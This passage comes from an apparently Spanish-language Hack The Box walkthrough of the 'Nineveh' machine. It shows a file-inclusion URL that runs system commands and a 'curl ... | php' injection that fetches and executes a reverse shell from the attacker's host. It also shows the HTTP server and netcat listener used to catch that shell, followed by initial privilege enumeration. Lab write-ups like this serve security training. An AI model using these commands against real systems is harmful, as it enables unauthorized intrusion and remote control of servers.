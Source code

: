 - `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/k4miyo.php&cmd=whoami`

![](/assets/images/htb-nineveh/nineveh-web18.png)

Ya tenemos ejecución de comando a nivel de sistema, ahora nos queda ingresar a la máquina; para este caso haremos uso de la herramienta [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), así que la descargamos en nuestro directorio de trabajo, los descomprimimos y modificamos los parámetros que nos indica dentro del archivo `php-reverse-shell.php`. Una vez hecho esto, nos compartimos un servidor HTTP con python, nos podemos en escucha y procedemos a entablarnos una reverse shell.

- `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/k4miyo.php&cmd=curl http://10.10.14.27/shell.php|php`

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.43 - - [28/Nov/2021 20:43:22] "GET /shell.php HTTP/1.1" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.43] 56104
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 20:48:20 up 57 min,  0 users,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya nos encontramos dentro de la máquina y como siempre, para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Nos encontramos como el usuario **www-data** y no podemos visualizar la flag ya que no tenemos los permisos necesarios. Vamos a enumerar un poco el sistema.

```bash
www-data@nineveh:/home/amrois$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@nineveh:/home/amrois$ sudo -l
[sudo] password for www-data: 
www-data@nineveh:/home/amrois$
```

